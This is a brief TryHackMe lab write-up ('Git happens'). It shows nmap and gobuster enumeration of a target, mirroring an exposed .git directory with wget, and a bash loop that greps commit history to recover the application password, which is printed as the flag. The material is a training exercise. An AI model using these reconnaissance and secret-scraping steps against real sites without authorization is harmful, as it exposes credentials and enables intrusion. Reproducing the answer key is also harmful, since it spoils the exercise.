





# TryHackMe Lab 13 Git happens

     
#Task 1  Capture the Flag
Can you find the password to the application?

Connected vpn `sudo openvpn computershane.opvn`

LHOST`10.2.70.52`
RHOST`10.10.168.75`

Scnning 

ran command `nmap -p- --min-rate 10000 10.10.168.75`

Ran command `sudo nmap -p 80 -sC -sV -oN THM-Lab-13.txt 10.10.168.75 `

Found Github repository

Enumerating

ran gobuster command `sudo gobuster dir -u http://'10.10.168.75' -w /usr/share/dirb/wordlists/common.txt`

     
Downloading file .git found earlier with command `wget --mirror -I .git '10.10.168.75'/.git/`

ran `cd` into 10.10.168.75/

command `git log`

found " re-obfuscating the code to be really secure!"

ran command `git show d954a99b96ff11c37a558a5d93ce52d0f3702a7d`

password has salt

ran command `git show e56eaa8e29b589976f33d76bc58a0c4dfb9315b1`

no luck

wrote bash script to save time code here>>>

`for commits in $(git log | grep commit | cut -d ' ' -f2 | head -9)
do
	git show $commits | grep password
done`

     
password`Th1s_1s_4_L0ng_4nd_S3cur3_P4ssw0rd!`

